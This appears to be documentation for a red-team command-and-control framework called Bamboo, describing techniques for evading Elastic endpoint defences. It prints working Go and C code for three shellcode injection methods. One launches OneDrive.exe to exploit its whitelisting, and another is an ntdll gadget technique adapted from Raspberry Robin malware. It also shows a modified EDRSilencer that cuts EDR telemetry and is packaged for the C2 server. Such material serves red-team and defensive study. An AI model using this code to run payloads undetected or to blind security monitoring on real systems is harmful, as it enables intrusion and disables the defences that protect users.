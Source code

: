 # Evasion

## Shellcode Injection

Elastic Defend is unable to detect malicious in-memory files. Thus, these shellcode injection techniques are effective in executing payloads undetected. The shellcode injection techniques are implemented within Bamboo Agent and can be selected when the user uses the [`exploit`](Client/commands.md#exploit) command. The shellcode for the injection is generated using [Donut](https://github.com/TheWover/donut).

### Virtual Allocation Injection

Virtual Allocation injection is a technique used to inject shellcode into memory. As this method of injection uses VirtualAlloc, it allocates and injects shellcode into the memory of its own process.

The exploits used by Bamboo tend to crash the injected process, so using Virtual Allocation will likely cause the Agent that ran it to crash.

The technique involves the following steps:

1. Use VirtualAlloc to reserve space to inject the shellcode inside the process.
2. Copy the shellcode into the reserved space using RtlCopyMemory.
3. Call VirtualProtect to change the protection on the injected space to allow execution.
4. Create a new thread in the process using CreateThread to run the shellcode in the injected space.
5. WaitForSingleObject is used to wait for the thread to finish.

**Implementation**

[zaneGittins' go-inject](https://github.com/zaneGittins/go-inject) simplifies using Windows functions related to injections, and is used by the agent to implement this technique.

<details>
<summary>Expand code</summary>

```go
func VirturalAlloc(payload string) (err error) {
  sc, err := hex.DecodeString(payload)
  if err != nil {
    fmt.Printf("\nError decoding shellcode: %s\n", err)
    return
  }

  address := inject.VirtualAlloc(uintptr(0), len(sc), windows.MEM_RESERVE|windows.MEM_COMMIT, windows.PAGE_READWRITE)
  inject.RtlMoveMemory2(address, sc)
  inject.VirtualProtect(address, len(sc), windows.PAGE_EXECUTE_READ)
  thread := inject.CreateThread(address)
  inject.WaitForSingleObject(thread, 0xFFFFFFFF)
  return
}
```

</details>

The code for this injection technique is found in Bamboo Agent.

---

### Remote Process Injection

Remote Process Injection, also called Vanilla Process Injection, is a shellcode injection technique that injects the shellcode into the memory of another process. Unlike the Virtual Allocation Injection technique above, this technique used VirtualAllocEx rather than VirtualAlloc, which allocates memory in another process instead of the local process.

The advantages of using process injection over injecting into itself are:

- Causing the injected process to crash instead of the agent used to inject.
- Make use of any whitelisting detection tools have for the injected process

The steps this technique uses is:

1. Get the PID of the process to inject.
2. Call OpenProcess to get a handle for the process to inject into.
3. Use VirtualAllocEx to allocate space for the shellcode in the remote process.
4. Write the shellcode into the allocated space using WriteProcessMemory.
5. Create a thread in the remote process with CreateRemoteThread to run the allocated space.
6. Close the handle to the process with CloseHandle.

**Implementation**

Instead of finding the PID of a suitable process, the Agent will launch OneDrive.exe from the user's home directory. OneDrive is a very suitable process to inject into with the exploits Bamboo has, and launching the process before injecting into it will ensure that the process will be available to inject into. It is also whitelisted from Elastic Security's Component Model Hijacking as it is considered a noisy process.

<details>
<summary>Expand code</summary>

```go
...
sc, err := hex.DecodeString(payload)
if err != nil {
  return
}
 find and launch OneDrive.exe and use its PID
currentUser, _ := user.Current()
oneDriveExe := currentUser.HomeDir + "\\AppData\\Local\\Microsoft\\OneDrive\\OneDrive.exe"
cmd := exec.Command(oneDriveExe)
cmd.Stdout = os.Stdout
// Start() runs the command without waiting for return - rest of the code can continue
  err = cmd.Start()
  if err != nil {
  fmt.Println(err)
    return errors.New("cannot launch process")
}
exploitPID := cmd.Process.Pid
fmt.Println("exploit pid:", exploitPID)
...
```

</details>

The rest of the injection technique is implemented with [zaneGittins' go-inject](https://github.com/zaneGittins/go-inject) library.

<details>
<summary>Expand code</summary>

```go
...
processHandle, _ := inject.OpenProcess(windows.PROCESS_CREATE_THREAD|windows.PROCESS_VM_OPERATION|windows.PROCESS_VM_WRITE|windows.PROCESS_VM_READ|windows.PROCESS_QUERY_INFORMATION, 0, uint32(int(exploitPID)))
memptr := inject.VirtualAllocEx(processHandle, uintptr(0), len(sc), 0x3000, 0x40)

_ = inject.WriteProcessMemory(processHandle, memptr, sc)
inject.CreateRemoteThread(processHandle, 0, 0, memptr, 0, 0, 0)
inject.CloseHandle(processHandle)
fmt.Println(windows.GetLastError())
return
```

</details>

The code for this injection technique is found in Bamboo Agent.

### NtQueueApcThreadEx NTDLL Gadget Injection

**Description**

This is a novel shellcode injection method first used by Roshtyak, the DLL backdoor used by the malware Raspberry Robin. This was adapted into a C program and published on github by [LLoydLabs](https://github.com/LloydLabs/ntqueueapcthreadex-ntdll-gadget-injection), which is the original code Bamboo uses for its NtQueueApcThreadEx NTDLL Gadget Injection. The image below shows the parameters of `NtQueueApcThreadEx()`, a function in the Windows Native API. The original code only works with x86 shellcode. However, in the explanation below, the gadget `pop rax; ret` is used instead of `pop r32; ret` to make the technique work with x64 shellcode instead.

![ntqueueapcthreadex_api](img/ntqueue.png)

The technique uses the following steps:

1. Allocate shellcode into the memory of the current process
2. Scan the ntdll.dll code sections of the current process for a `pop rax; ret` gadget and pick 1 of these gadgets randomly.
   - “rax” refers to a general-purpose register such as eax, ebc, ecx etc. Thus, an example gadget that would meet this requirement is `pop ebp; ret`.
   - An exception is the gadget `pop esp; ret` because this would pivot the stack.
   - “Code sections” refers to IMAGE_SCN_CNT_CODE and IMAGE_SCN_MEM_EXECUTE
3. Call `NtQueueApcThreadEx()` with the `ApcRoutine` set to the address of the random gadget found in step 2 (`pop rax; ret`) and `SystemArgument1` as the pointer to the shellcode allocated in step 1.
   - With `ApcRoutine` set to the random gadget, the `pop r32` instruction will make the stack pointer point to `SystemArgument1`.
   - The `ret` instruction will make the Instruction Pointer (IP) jump to the location that `SystemArgument1` points to, which is the location of the allocated shellcode in step 1

This technique requires Microsoft Visual C++ redistributables x86 to be installed on the target which can be found at [https://aka.ms/vs/16/release/vc_redist.x86.exe](https://aka.ms/vs/16/release/vc_redist.x86.exe).

**Implementation**

The code is modified to work with x64 shellcode by changing a single line in gadget.h as shown in the code snippet below.

<details>
<summary>Expand code</summary>

```c
static
BOOL
gadget_match_valid(
    PBYTE pbAddress
)
{
    //return (*pbAddress != 0x5C && (*pbAddress & 0xF0) == 0x50) && *(pbAddress + 1) == 0xC3; // for x86
    return *pbAddress == 0x58 && *(pbAddress + 1) == 0xC3; // for x64

}
```

</details>

Additionally, in the original code, the shellcode was hardcoded in main.h. In Bamboo, the code is modified to receive shellcode via standard input. After the injection program is dropped onto the target and executed, the shellcode will be passed via standard input from the agent as a hexstring in the format “ab1823129ef…”, which is the standard format of shellcode that our agent uses for its injection techniques. This hexstring is stored into a buffer of the injection program and converted by a `convert_hex()` function into a hexstring of format “\xab\x18\x23\x12\xef…”. The rest of the code follows the logic of the original PoC from LloydLabs.

When this injection technique is selected, Bamboo Agent drops its embedded Gadget Injection file onto the target, executes it, then passes the payload as a hexstring via standard input which is then injected.

---

## EDR Blinding

The tool below is not an injection technique, but instead used to disrupt the effectiveness of the EDR itself.

### EDR Silencer

**Description**

EDRSilencer, created by [netero1010](https://github.com/netero1010) is an [open-source](https://github.com/netero1010/EDRSilencer) evasion tool designed for disrupting Endpoint Detection and Response (EDR) systems. It leverages Windows Filtering Platform (WFP) APIs, which allows a program developer to create network filtering software that can examine, modify and stop network traffic. EDRSilencer uses the WFP to prevent EDR agents and processes from connecting and reporting security events with their servers, effectively disabling the EDR's threat detection capabilities of the EDR. The tool currently supports Elastic EDR, among other popular EDR solutions.

**Implementation**

In the [original code's](https://github.com/netero1010/EDRSilencer/blob/main/EDRSilencer.c) main function, it checks if the user inputs the correct number of command-line arguments and performs different actions based on the argument's value:

| Arguments            | Description                                                     |
| -------------------- | --------------------------------------------------------------- |
| -h or --help         | Prints the help information                                     |
| blockedr             | Blocks all detected EDR processes from sending outbound traffic |
| block <process path> | Blocks a specific process from sending outbound traffic         |
| unblockall           | Removes all WFP filters applied                                 |
| unblock <filter id>  | Removes a specific WFP filter based on its filter ID            |

The team modified the main function of the original code. The modified code no longer requires command-line arguments. It has been altered to only execute the `blockedr` argument. The modified code is as follows:

<details>
<summary>Expand code</summary>

```c
int main() {
    if (!CheckProcessIntegrityLevel()) {
        return 1;
    }
    PrintHelp();
    BlockEdrProcessTraffic();
    return 0;
}
```

</details>
This modification allows the executable to be easily incorporated within our C2 and agent, making it more convenient and efficient for our purposes. With this modification, the file is stored as EDRBlocker.exe in the Teamserver.
